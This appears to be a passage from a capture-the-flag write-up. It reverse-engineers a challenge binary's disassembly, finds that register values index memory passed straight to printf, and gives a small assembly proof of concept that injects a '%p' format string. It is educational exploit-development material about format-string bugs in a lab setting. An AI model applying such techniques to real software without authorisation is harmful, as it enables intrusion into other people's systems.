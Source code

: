 If we check the assembly we can see that it indeeds left shift the first argument by the size of the second argument. 
The size is 8 bits(1 byte). It then OR it instead of ANDing(ig the person that answered this made a mistake there, because ANDing is wrong) it:

```
        00405aa1 0f b6 05        MOVZX      EAX,byte ptr [DAT_0040b923]
                 7b 5e 00 00
        00405aa8 0f b6 c0        MOVZX      EAX,AL
        00405aab c1 e0 08        SHL        EAX,0x8
        00405aae 89 c2           MOV        EDX,EAX
        00405ab0 0f b6 05        MOVZX      EAX,byte ptr [DAT_0040b924]
                 6d 5e 00 00
        00405ab7 0f b6 c0        MOVZX      EAX,AL
        00405aba 09 d0           OR         EAX,EDX
        00405abc 66 89 45 f2     MOV        word ptr [RBP + local_16],AX
        00405ac0 0f b7 45 f2     MOVZX      EAX,word ptr [RBP + local_16]
        00405ac4 48 98           CDQE
        00405ac6 48 8d 15        LEA        RDX,[DAT_0040b920]
                 53 5e 00 00
        00405acd 48 01 d0        ADD        RAX,RDX
        00405ad0 48 83 c0 08     ADD        RAX,0x8
        00405ad4 48 89 c7        MOV        RDI,RAX
        00405ad7 b8 00 00        MOV        EAX,0x0
                 00 00
        00405adc e8 cf b5        CALL       <EXTERNAL>::printf
                 ff ff
```

Based on thise we know that it concat two values. In the challenge `Impossible Mission` we already reversed the binary, we found out that the 2 values at the data section are register X and Y.
It then adds the value to the first argument of printf. Thats where the value is stored. So in code its something like `mem[(reg_x << 8) | reg_y]`. You can check in GDB how it works if you dont get it.
With this we can try to exploit the binary.

So I created an small poc:
```
* = $c000; Sets the base address to 0xc000
jmp start

payload .ASCII "%p"
        .BYTE 0

start	
		jsr		test
test	
		ldx		#>payload
		ldy		#<payload
		.word   0 ; We will patch this later with int #32. int isn't a normal opcode in c64. In this opcode it takes input etc.. In this challenge there is a format string here if we call it with 32 as hex value. 

		rts
```
